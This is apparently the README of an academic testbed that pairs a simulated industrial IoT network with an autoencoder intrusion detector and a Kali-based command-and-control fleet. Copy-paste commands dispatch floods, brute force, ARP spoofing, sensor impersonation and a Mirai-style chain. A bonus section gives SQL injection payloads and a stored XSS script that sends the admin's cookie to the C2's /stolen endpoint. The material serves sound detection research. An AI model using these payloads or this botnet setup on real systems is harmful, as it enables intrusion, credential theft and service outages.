




# InduSentry — Industrial IoT Testbed for Hybrid Intrusion Detection

[](https://docs.docker.com/compose/)
[](https://www.python.org/)
[](https://www.tensorflow.org/)
[]()

> A fully containerised, 5-layer Industrial Internet of Things (IIoT) testbed paired with the
> **Stage 1 of the InduSentry hybrid IDS** — a calibrated Autoencoder anomaly detector
> (Regional Anomaly Detector Module, RADM) cascading alerts to a Global Anomaly Detection Module (GADM).
> Includes a distributed attack fleet (Kali C2 + 3 Debian bots) and **twelve runnable
> attack classes** covering reconnaissance, web exploitation, brute force, DoS/DDoS,
> MITM, sensor impersonation, IP spoofing, and the full Mirai kill-chain.

---

## Table of Contents

1. [What this project is](#what-this-project-is)
2. [Architecture overview](#architecture-overview)
3. [Component inventory](#component-inventory)
4. [Network map](#network-map)
5. [The InduSentry detector — Regional Anomaly Detector Module + Global Anomaly Detection Module cascade](#the-indusentry-detector--regional-anomaly-detector-module--global-anomaly-detection-module-cascade)
6. [Quick start](#quick-start)
7. [Attack catalogue](#attack-catalogue)
8. [Demonstration screenshots](#demonstration-screenshots)
9. [Operator HTTP control plane](#operator-http-control-plane)
10. [Project layout](#project-layout)
11. [Troubleshooting](#troubleshooting)
12. [Authorship](#authorship)

---

## What this project is

This repository is the **complete experimental testbed** for the InduSentry hybrid IDS project:

> **Debz Abdelhamid — *A Hybrid Machine Learning-Based Intrusion Detection System
> for Zero-Day Attacks in the Industrial Internet of Things***

The hybrid IDS described here is a **two-stage cascade**:

| Stage | Component | Status in this repository |
|---|---|---|
| **Stage 1** | Unsupervised AutoEncoder anomaly detector | ✅ **Implemented live in this testbed** (Regional Anomaly Detector Module, RADM service) |
| **Stage 2** | XGBoost classifier + Out-of-Distribution detector | ⏳ Implemented offline in the **InduSentry Web Platform** (separate repo) |

This repo contains everything required to:

- Spin up a realistic 5-layer IIoT industrial environment in **under 5 minutes** with one
  `docker compose up -d --build`,
- Run live attacks from a coordinated distributed attack fleet against the simulated edge,
- Observe Stage 1 of the InduSentry pipeline (Regional Anomaly Detector Module (RADM) + Global Anomaly Detection Module (GADM)) detecting
  every attack class in real time on the live bridge,
- Generate rotating pcap files for forensic post-mortem.

---

## Architecture overview

The testbed reproduces a 5-layer industrial reference architecture inside Docker, with
two isolated bridge networks modelling the OT/IT separation found on real industrial sites.

<p align="center">
  
     <br/>
     <em>Figure 1 - InduSentry IIoT Testbed Architecture</em>
</p>

**Key properties:**

- Layers 1 and 5 share the same `iiot_net` bridge — modelling a **flat OT network**, the
  realistic deployment shape of most industrial sites today.
- The Regional Anomaly Detector Module (RADM) monitor runs in `host` network mode and **sniffs the Docker bridge passively**
  — exactly how it would deploy in a real industrial environment, plugged into a
  SPAN/mirror port.
- The cloud network is fully isolated from the IIoT side by the Docker bridge boundary
  — modelling the OT/IT separation.

---

## Component inventory

### Layer 1 — IoT / IIoT devices (16 containers)

| Component | IP | Role / behaviour |
|---|---|---|
| `sensor_weather` | 192.168.1.10 | Publishes temperature/humidity/pressure every 2 s |
| `sensor_water` | 192.168.1.11 | Flow / level / pH every 3 s |
| `sensor_soil` | 192.168.1.12 | Moisture / temperature / pH every 4 s |
| `sensor_gas` | 192.168.1.14 | CO₂ / CO / CH₄ every 5 s |
| `sensor_sound` | 192.168.1.15 | dB / frequency every 2 s |
| `sensor_motion` | 192.168.1.21 | Motion detection events every 1 s |
| `sensor_rfid` | 192.168.1.22 | RFID tag reads every 4 s |
| `sensor_flame` | 192.168.1.23 | Flame / IR / temperature every 2 s |
| `camera_yi` | 192.168.1.50 | IP camera, web UI on `:8050` |
| `camera_blurams` | 192.168.1.52 | IP camera, web UI on `:8052` |
| `camera_geeni` | 192.168.1.55 | IP camera, web UI on `:8055` |
| `camera_wisenet` | 192.168.1.57 | IP camera, web UI on `:8057` |
| `plug_cameras` | 192.168.1.80 | Smart-plug controller `:8080` |
| `plug_mqtt` | 192.168.1.82 | Smart-plug controller `:8082` |
| `plug_motion` | 192.168.1.85 | Smart-plug controller `:8085` |
| `plug_sensors` | 192.168.1.93 | Smart-plug controller `:8093` |

### Layer 3 — Edge (4 containers)

| Component | IP / mode | Role |
|---|---|---|
| `mqtt_broker` (Mosquitto) | 192.168.1.193 | Edge MQTT broker on `:1883`, receives all sensor publications |
| `victim` (vulnerable Flask + SSH + Telnet mock) | 192.168.1.195 | Edge device with **deliberate SQLi / XSS / path-traversal flaws** on port 80. SSH on `:22`, mock Telnet on `:23`. Hard CPU/memory limits (128 MB / 5 % CPU) simulating IoT-class hardware. |
| `network_dump` (rotating tcpdump) | host network | Continuous rotating pcap capture — 60 s files, 20-file ring buffer |
| `monitor` — **Regional Anomaly Detector Module (RADM)** (InduSentry Stage 1) | host network | The AutoEncoder anomaly detector. Sniffs the iiot_net bridge, aggregates packets into 5-second AND 10-second rolling windows, extracts 37 network features, runs **AE_5s** and **AE_10s** in parallel, OR-ensembles their verdicts. Pushes alerts to the Global Anomaly Detection Module (GADM). |

### Layer 4 — Cloud (3 containers)

| Component | IP | Role |
|---|---|---|
| `cloud_broker` (Mosquitto) | 10.0.0.10 | Cloud-side MQTT relay (host port 1884 exposed) |
| `cloud_logger` | 10.0.0.20 | Persistent log store on `:5001` — Elasticsearch-equivalent for the testbed |
| `cloud_gadm` — **Global Anomaly Detection Module (GADM)** | 10.0.0.30 | Global Anomaly Detection Module. Receives Regional Anomaly Detector Module (RADM) alerts on `POST /alert :5000`, persists them, forwards to `cloud_logger` |

### Layer 5 — Attacker (distributed attack fleet — 4 containers)

| Component | IP | Role |
|---|---|---|
| `attacker_c2` (Kali Linux + full toolbox) | 192.168.1.100 | C2 server. **CnC channel on TCP/2300** for bot check-in. **HTTP control plane on :5300** exposed to host for operator command issuance via `POST /attack`. Supports broadcast or per-bot targeting. Keep-alive thread sends `PING` to every bot every 25 s. |
| `attacker_bot1` (Debian + full toolkit) | 192.168.1.101 | Bot agent — registers to C2, executes attack commands |
| `attacker_bot2` (identical) | 192.168.1.102 | Identical bot |
| `attacker_bot3` (identical) | 192.168.1.103 | Identical bot |

Debian bot toolset includes: scapy, hping3, slowhttptest, nmap, hydra, sqlmap, nikto, ettercap, dsniff, mosquitto-clients, netcat, paho-mqtt.

Each bot supports **15 attack verbs**:

```
syn · udp · http · httpflood · mqttflood ·
mirai · mitm · arpspoof · impersonate · ipspoof ·
recon · brute · web · nikto · exec
```

### Layer summary

| Layer | Name | Network | # Containers |
|---|---|---|---|
| 1 | IoT / IIoT devices | iiot_net | 16 |
| 2 | Network infrastructure | iiot_net + cloud_net | 2 Docker bridges |
| 3 | Edge | iiot_net + host | 4 |
| 4 | Cloud | cloud_net | 3 |
| 5 | Attacker | iiot_net | 4 |
| **Total** | | | **27 containers · 2 networks** |

### At-a-glance reference card

<p align="center">
  
     <br/>
     <em>Figure 2 - InduSentry quick reference - layer summary, key properties, and attack verbs</em>
</p>

---

## Network map

- **`iiot_net`** — `192.168.1.0/24` — industrial-side bridge. All sensors, cameras,
  plugs, edge services, and attacker bots share this segment (flat OT network).
- **`cloud_net`** — `10.0.0.0/24` — cloud-side bridge, isolated from `iiot_net`.

### Ports exposed to the Windows host

| Host port | Container | Purpose |
|---|---|---|
| `80` | victim:80 | Vulnerable Flask portal (SQLi / XSS / path-traversal) |
| `1883` | mqtt_broker:1883 | Edge MQTT broker |
| `1884` | cloud_broker:1883 | Cloud MQTT broker |
| `2222` | victim:22 | SSH on the edge device (admin/admin123 etc.) |
| `2323` | victim:23 | Mock Telnet on the edge device |
| `5000` | cloud_gadm:5000 | Global Anomaly Detection Module (GADM) `/alert` ingest + `/health` |
| `5001` | cloud_logger:5001 | Cloud log store |
| `5300` | attacker_c2:5300 | **Operator HTTP control plane — `POST /attack`** |
| `8050/52/55/57` | cameras | Camera web UIs |
| `8080/82/85/93` | smart plugs | Plug web UIs |

---

## The InduSentry detector — Regional Anomaly Detector Module + Global Anomaly Detection Module cascade

The detection pipeline is the **first stage of the InduSentry hybrid IDS** described in
this repository. It runs entirely passively on the iiot_net bridge.

<p align="center">
     
     <br/>
     <em>Figure 3 - InduSentry Detection Pipeline - Regional Anomaly Detector Module AutoEncoder + Global Anomaly Detection Module cascade</em>
</p>

**37 network features extracted per window** (matching the AE training schema):

- TCP-flag counts and statistics (`syn_count`, `ack_count`, `rst_count`, `fin_count`, avg, max)
- Packet sizes (avg, min, std), IP lengths
- TTL stats, MSS stats, window-size stats
- Source/destination port and IP cardinality counts
- Time-delta between packets (avg, min, max, std)
- Packet rate (interval-packets)

**Calibration** — On startup, the Regional Anomaly Detector Module (RADM) observes **30 benign 5-second windows (~2.5 min)**,
computes the empirical p99 of the reconstruction MSE, and raises the baseline threshold
to fit the local environment. Watch for the `[CALIBRATION COMPLETE]` line in
`docker logs -f iiot_radm` before launching any attack.

**Cascade output** — Every detected anomaly is `POST /alert`-ed to the Global Anomaly Detection Module (GADM), which persists
the timestamped alert and forwards it to `cloud_logger`. The full Regional Anomaly Detector Module (RADM) -> Global Anomaly Detection Module (GADM) -> logger
chain is observable via `docker logs -f cloud_gadm` and `docker logs -f cloud_logger`.

---

## Quick start

### Prerequisites

- Docker Desktop (Windows 11, with WSL2 backend recommended)
- 6 GB free RAM, ~3 GB free disk
- PowerShell 5.1+

### Boot the testbed

```powershell
cd C:\path\to\iiot_docker
docker compose up -d --build
```

This builds 27 containers and starts them in detached mode. First build: ~10 min.
Subsequent boots: under 30 s.

### Wait for the detector to calibrate

```powershell
docker logs -f iiot_radm
```

Wait until you see:

```
[CALIBRATION COMPLETE]
[monitor] Now actively detecting anomalies …
```

This takes **~2.5 minutes** on first boot. **Do not attack before this line** — alerts
during calibration would corrupt the threshold and blind the detector.

### Confirm the bots registered with the C2

```powershell
curl http://localhost:5300/bots
```

Expect:

```json
{"bots":[{"bot_id":"bot1",...},{"bot_id":"bot2",...},{"bot_id":"bot3",...}],"count":3}
```

If `count` ≠ 3, restart the bots:

```powershell
docker compose restart attacker_bot1 attacker_bot2 attacker_bot3
```

### Recommended terminal layout for live attacks (6 panes)

| Pane | Command | Role |
|---|---|---|
| W1 | `docker compose up` (foreground) | Boot logs, sensors publishing |
| W2 | `docker logs -f iiot_radm` | Regional Anomaly Detector Module (RADM) alerts (Stage 1 output) |
| W3 | `docker logs -f cloud_gadm` | Global Anomaly Detection Module (GADM) ingest |
| W4 | `docker logs -f attacker_c2` | C2 dispatch log |
| W5 | `docker logs -f attacker_bot1` (or 2, 3) | Bot execution log |
| W6 | `docker exec -it attacker_c2 bash` | **Operator console** (run attack commands here) |

---

## Attack catalogue

All attacks are launched from the Kali C2 over the HTTP control plane (port 5300).
The C2 in turn dispatches the command to one or more bots over the TCP/2300 channel.
**The host operator never needs to `docker exec` into a bot.**

### Resource-exhaustion / volumetric

| Verb | Tool used | Typical command |
|---|---|---|
| `syn` | scapy `synflood.py` | `syn <ip> <port> <secs>` |
| `udp` | hping3 `--udp --flood` | `udp <ip> <port> <secs>` |
| `http` | slowhttptest (Slowloris) | `http <ip> <secs>` |
| `httpflood` | Python multi-thread `urllib` | `httpflood <ip> <secs> [threads]` |
| `mqttflood` | paho-mqtt clients | `mqttflood <broker> <secs> [clients] [size]` |

### Reconnaissance / brute / web

| Verb | Tool used | Typical command |
|---|---|---|
| `recon` | nmap (`-sS -T5 --min-rate 800` + `-sV`) | `recon <ip_or_subnet>` |
| `brute` | hydra (baked-in wordlists) | `brute <ip> <ssh|telnet|ftp>` |
| `web` | sqlmap (`--technique=BU --threads=1`) | `web <ip>` |
| `nikto` | nikto (installed from upstream git) | `nikto <ip>` |

### MITM family

| Verb | Tool used | What it does |
|---|---|---|
| `mitm` | Custom Scapy script | ARP poison + live MQTT sniff |
| `arpspoof` | **ettercap 0.8.3.1** (canonical) | ARP MITM via the standard pentest tool |
| `impersonate` | paho-mqtt | Hijacks a sensor's `client_id`, publishes forged telemetry to the cloud |
| `ipspoof` | Custom Scapy script | TCP-SYN flood with **randomised source IPs** (attribution evasion) |

### Full Mirai chain

| Verb | What it does |
|---|---|
| `mirai` | Scan → default-credential brute → SYN flood, single command, one bot or all bots |

### Operator escape hatch

| Verb | What it does |
|---|---|
| `exec` | Runs any shell command on the targeted bot (e.g. `exec curl http://...`) |

---

## Demonstration screenshots

### Environment and calibration

<p align="center">
     
     <br/>
     <em>Bots connected to the C2</em>
</p>

<p align="center">
     
     <br/>
     <em>Calibration adapts the detector to the deployment environment</em>
</p>

### Reconnaissance

<p align="center">
     
     <br/>
     <em>Recon attack (bot1)</em>
</p>

### Web exploitation and injection

<p align="center">
     
     <br/>
     <em>SQLMap run (1)</em>
</p>

<p align="center">
     
     <br/>
     <em>SQLMap run (2)</em>
</p>

<p align="center">
     
     <br/>
     <em>SQLMap run (3)</em>
</p>

<p align="center">
     
     <br/>
     <em>SQLMap run (4)</em>
</p>

<p align="center">
     
     <br/>
     <em>SQL injection</em>
</p>

<p align="center">
     
     <br/>
     <em>SQL injection (follow-up)</em>
</p>

<p align="center">
     
     <br/>
     <em>SQL injection impact on sensor thresholds</em>
</p>

<p align="center">
     
     <br/>
     <em>Stored XSS via SQL injection</em>
</p>

<p align="center">
     
     <br/>
     <em>Nikto web scan</em>
</p>

### Brute force

<p align="center">
     
     <br/>
     <em>SSH brute force</em>
</p>

<p align="center">
     
     <br/>
     <em>Telnet brute force</em>
</p>

### DoS and DDoS

<p align="center">
     
     <br/>
     <em>MQTT flood</em>
</p>

<p align="center">
     
     <br/>
     <em>SYN flood</em>
</p>

<p align="center">
     
     <br/>
     <em>Slowloris attack (service unavailable)</em>
</p>

<p align="center">
     
     <br/>
     <em>HTTP flood</em>
</p>

<p align="center">
     
     <br/>
     <em>DDoS HTTP flood (3 bots)</em>
</p>

### MITM and impersonation

<p align="center">
     
     <br/>
     <em>Sensor impersonation (weather_01)</em>
</p>

<p align="center">
     
     <br/>
     <em>Ettercap MITM</em>
</p>

<p align="center">
     
     <br/>
     <em>MITM with Ettercap</em>
</p>

### IP spoofing

<p align="center">
     
     <br/>
     <em>IP spoofing (1)</em>
</p>

<p align="center">
     
     <br/>
     <em>IP spoofing (2)</em>
</p>

### Mirai chain

<p align="center">
     
     <br/>
     <em>Mirai attack chain</em>
</p>

<p align="center">
     
     <br/>
     <em>Mirai scanning step</em>
</p>

<p align="center">
     
     <br/>
     <em>Mirai attack completed</em>
</p>

---

## Operator HTTP control plane

The C2 exposes a tiny JSON API on `:5300`. From the Windows host or any reachable
endpoint:

### `GET /bots`

Lists every connected bot with last-seen timestamp.

```powershell
curl http://localhost:5300/bots
```

### `GET /health`

Service health check.

```powershell
curl http://localhost:5300/health
```

### `POST /attack`

Dispatches an attack to one bot, a subset, or **all bots** (broadcast).

**Target a single bot:**

```bash
curl -X POST http://localhost:5300/attack \
     -H "Content-Type: application/json" \
     -d '{"cmd":"recon 192.168.1.0/24","targets":["bot1"]}'
```

**Broadcast to every connected bot (no `targets` field):**

```bash
curl -X POST http://localhost:5300/attack \
     -H "Content-Type: application/json" \
     -d '{"cmd":"httpflood 192.168.1.195 60 300"}'
```

The C2 responds with `{"cmd":"...","sent_to":["bot1","bot2","bot3"],"failed":[],"count":3}`.

---

### One-shot attack reference (copy/paste)

```bash
# 1. Recon  (Nmap from bot1)
curl -X POST http://localhost:5300/attack -H "Content-Type: application/json" \
     -d '{"cmd":"recon 192.168.1.0/24","targets":["bot1"]}'

# 2. Web SQLi  (sqlmap from bot2)
curl -X POST http://localhost:5300/attack -H "Content-Type: application/json" \
     -d '{"cmd":"web 192.168.1.195","targets":["bot2"]}'

# 3. Nikto vuln scan  (bot3)
curl -X POST http://localhost:5300/attack -H "Content-Type: application/json" \
     -d '{"cmd":"nikto 192.168.1.195","targets":["bot3"]}'

# 4. SSH brute force  (hydra from bot1)
curl -X POST http://localhost:5300/attack -H "Content-Type: application/json" \
     -d '{"cmd":"brute 192.168.1.195 ssh","targets":["bot1"]}'

# 5. Telnet brute force  (hydra from bot2)
curl -X POST http://localhost:5300/attack -H "Content-Type: application/json" \
     -d '{"cmd":"brute 192.168.1.195 telnet","targets":["bot2"]}'

# 6. SYN flood  (single bot — kernel SYN-cookies will absorb)
curl -X POST http://localhost:5300/attack -H "Content-Type: application/json" \
     -d '{"cmd":"syn 192.168.1.195 80 20","targets":["bot3"]}'

# 6b. HTTP request flood  (kills Flask via thread exhaustion)
curl -X POST http://localhost:5300/attack -H "Content-Type: application/json" \
     -d '{"cmd":"httpflood 192.168.1.195 30 250","targets":["bot3"]}'

# 7. UDP flood on the MQTT broker (kernel drops, Regional Anomaly Detector Module (RADM) still detects)
curl -X POST http://localhost:5300/attack -H "Content-Type: application/json" \
     -d '{"cmd":"udp 192.168.1.193 1883 15","targets":["bot1"]}'

# 7b. MQTT publish flood (broker actually processes every message)
curl -X POST http://localhost:5300/attack -H "Content-Type: application/json" \
     -d '{"cmd":"mqttflood 192.168.1.193 20 50 1024","targets":["bot1"]}'

# 8. Slow-HTTP / Slowloris (thread-pool starvation)
curl -X POST http://localhost:5300/attack -H "Content-Type: application/json" \
     -d '{"cmd":"http 192.168.1.195 25","targets":["bot2"]}'

# 9. DDoS broadcast — ALL 3 BOTS simultaneously
curl -X POST http://localhost:5300/attack -H "Content-Type: application/json" \
     -d '{"cmd":"httpflood 192.168.1.195 60 300"}'

# 10. MITM family — Scapy ARP poison
curl -X POST http://localhost:5300/attack -H "Content-Type: application/json" \
     -d '{"cmd":"mitm 192.168.1.10 192.168.1.193","targets":["bot3"]}'

# 10a. MITM family — Ettercap ARP spoof
curl -X POST http://localhost:5300/attack -H "Content-Type: application/json" \
     -d '{"cmd":"arpspoof 192.168.1.10 192.168.1.193 30","targets":["bot3"]}'

# 10b. MITM family — Sensor Impersonation (data-integrity attack)
curl -X POST http://localhost:5300/attack -H "Content-Type: application/json" \
     -d '{"cmd":"impersonate 192.168.1.193 30 weather_01 iiot/weather true","targets":["bot3"]}'

# 10c. MITM family — IP Spoofing (101 forged source IPs)
curl -X POST http://localhost:5300/attack -H "Content-Type: application/json" \
     -d '{"cmd":"ipspoof 192.168.1.195 80 15 192.168.1","targets":["bot3"]}'

# 11. Full Mirai chain — single bot (scan + brute + flood)
curl -X POST http://localhost:5300/attack -H "Content-Type: application/json" \
     -d '{"cmd":"mirai 192.168.1.195 20","targets":["bot1"]}'

# 12. Full Mirai chain — ALL 3 BOTS simultaneously (the headline)
curl -X POST http://localhost:5300/attack -H "Content-Type: application/json" \
     -d '{"cmd":"mirai 192.168.1.195 30"}'
```

---

### Bonus: out-of-band SQLi exploit chain (from inside the Kali C2 shell)

Demonstrates that *content* attacks succeed without being detected by Stage 1.

```bash
docker exec -it attacker_c2 bash
```

```bash
# Read the credentials table directly
curl -G "http://192.168.1.195/api/sensors" \
     --data-urlencode "id=1 UNION SELECT id,username,password,role,1,1,1 FROM users"

# Catastrophic threshold sabotage: set all sensor thresholds to 999 via OR-1=1 bypass
curl "http://192.168.1.195/api/update?id=1+OR+1=1&threshold=999"

# Stored XSS via SQLi — exfiltrate the admin's session cookie to the C2's HTTP log
curl -G "http://192.168.1.195/api/update" \
     --data-urlencode "id=1" \
     --data-urlencode "threshold=0; UPDATE sensors SET name = '<script>fetch(\"http://localhost:5300/stolen?c=\"+encodeURIComponent(document.cookie))</script>' WHERE id = 1; --"
```

When the admin visits `http://localhost/` in a browser, the script executes, and the
cookie is exfiltrated to the C2 — visible in `docker logs -f attacker_c2`:

```
[C2-HTTP] 192.168.1.1 - "GET /stolen?c=session=admin-7201af23b45195b8;auth_token=Bearer.eyJ0..." 404 -
```

---

## Project layout

```
iiot_docker/
├── docker-compose.yml             # The whole testbed in one file (27 containers, 2 networks)
├── README.md                      # This file
├── .gitignore                     # Excludes rotating pcaps, .pyc, IDE noise
│
├── sensor/                        # Generic sensor image (8 instances, one per type)
│   ├── Dockerfile
│   └── sensor.py
│
├── camera/                        # Synthetic IP-camera image (4 instances)
│   ├── Dockerfile
│   └── camera.py
│
├── smartplug/                     # Smart-plug controller image (4 instances)
│   ├── Dockerfile
│   └── plug.py
│
├── mqtt_broker/                   # Eclipse Mosquitto config (edge)
│   └── mosquitto.conf
│
├── cloud_broker/                  # Eclipse Mosquitto config (cloud)
│
├── victim/                        # Vulnerable IIoT edge portal — the target
│   ├── Dockerfile
│   ├── portal.py                  # Flask with deliberate SQLi/XSS/path-traversal
│   ├── telnet_mock.py             # Lightweight Python Telnet server (port 23)
│   ├── sshd_config
│   ├── start.sh                   # Boots sshd + telnet_mock + portal
│   └── index.html
│
├── network_dump/                  # Rotating pcap recorder (host-network tcpdump)
│   ├── Dockerfile
│   ├── entrypoint.sh
│   └── captures/                  # GIT-IGNORED — pcaps regenerated on every run
│
├── monitor/                       # ★ InduSentry Stage 1 — Regional Anomaly Detector Module (RADM) AutoEncoder detector ★
│   ├── Dockerfile
│   ├── extractor.py               # 37-feature extractor + AE_5s/AE_10s inference loop
│   ├── requirements.txt
│   └── models/
│       ├── ae_5s_net38.keras      # Trained 5-second autoencoder
│       ├── ae_10s_net38.keras     # Trained 10-second autoencoder
│       └── deployment_bundle_net38.pkl  # QuantileTransformers + thresholds + feature list
│
├── cloud_gadm/                    # Global Anomaly Detection Module (GADM)
│   ├── Dockerfile
│   └── gadm.py                    # Receives POST /alert from Regional Anomaly Detector Module (RADM), persists, forwards
│
├── cloud_logger/                  # Cloud log store (Elasticsearch-equivalent for the lab)
│   ├── Dockerfile
│   └── logger.py
│
├── attacker_c2/                   # ★ Attack C2 (Kali Linux) ★
│   ├── Dockerfile                 # Full Kali toolbox + Python C2 server
│   ├── c2.py                      # CnC TCP/2300 + HTTP /attack /bots /health on :5300
│   └── attacks/                   # Mirrors of attack scripts for direct invocation
│
└── attacker_bot/                  # ★ Attack bot (Debian) — 3 instances ★
    ├── Dockerfile                 # All attack tools + paho-mqtt + nikto-from-git
    ├── bot_agent.py               # Registers to C2, dispatches 15 attack verbs
    └── attacks/
        ├── synflood.py            # TCP SYN flood (scapy)
        ├── mirai_sim.py           # Full Mirai kill-chain (parallel scan)
        ├── mitm.py                # Custom MITM with ARP poison + MQTT sniff
        ├── httpflood.py           # Application-layer HTTP request flood
        ├── mqttflood.py           # Real MQTT-PUBLISH flood (broker processes each)
        ├── impersonate.py         # Sensor identity hijack via duplicate client_id
        └── ipspoof.py             # TCP SYN with randomised source IPs
```

---

## Troubleshooting

### `[CALIBRATION COMPLETE]` never appears in W2

The Regional Anomaly Detector Module (RADM) didn't see enough benign traffic. Make sure no attack is running during the
first 3 minutes after boot. Restart the monitor:

```powershell
docker compose restart monitor
```

### `curl http://localhost:5300/bots` returns `count: 0` or `count: 1`

Bots disconnected. Restart all of them and wait 15 s:

```powershell
docker compose restart attacker_bot1 attacker_bot2 attacker_bot3
```

### `Read-only file system` error when running `ettercap` or `mitm`

You're missing the privileged-mode upgrade in `docker-compose.yml`. The attacker bots
must have:

```yaml
cap_add: [NET_RAW, NET_ADMIN]
privileged: true
sysctls:
  - net.ipv4.ip_forward=1
```

After editing, recreate containers (not just restart):

```powershell
docker compose up -d --force-recreate attacker_bot1 attacker_bot2 attacker_bot3
```

### Docker subnet conflict (Windows host already uses `192.168.1.0/24`)

Some ADSL routers in Algeria default to this subnet. Symptoms: Internet stops working
when the stack is up, or `localhost:80` becomes unreachable. Check:

```powershell
ipconfig | Select-String IPv4
```

If you see a `192.168.1.x` on your Wi-Fi adapter, either connect to a different network
(any other `192.168.x.x` is fine) or change the testbed subnet in `docker-compose.yml`
(global find-replace `192.168.1.` → `10.50.0.`).

### Pcap captures growing too large

The `network_dump` container writes ~5 MB per minute of rotating pcap. Default ring:
20 files of 60 s each (~5 minutes of full traffic). To shorten:

```yaml
# in docker-compose.yml — network_dump service
environment:
  - DURATION=30
  - MAX_FILES=10
```

Then `docker compose up -d --force-recreate network_dump`.

---

## Authorship

This testbed and the InduSentry hybrid IDS were designed and implemented by:

> **Debz Abdelhamid** — *A Hybrid Machine Learning-Based Intrusion Detection System for
> Zero-Day Attacks in the Industrial Internet of Things.*

**Companion repositories** (separate):

- *InduSentry Hybrid Pipeline (offline)* — Jupyter notebooks for the comparative study,
  AutoEncoder training, XGBoost classifier training, and OOD detector design.
- *InduSentry Web Platform* — Flask + Tailwind frontend for offline pcap/CSV analysis
  with the full AE + XGBoost + OOD cascade, including PDF report generator.

---

## License

Research / academic use only. Not for production deployment. Contains deliberately
vulnerable services that **must not be exposed to any network outside the local Docker
host.**
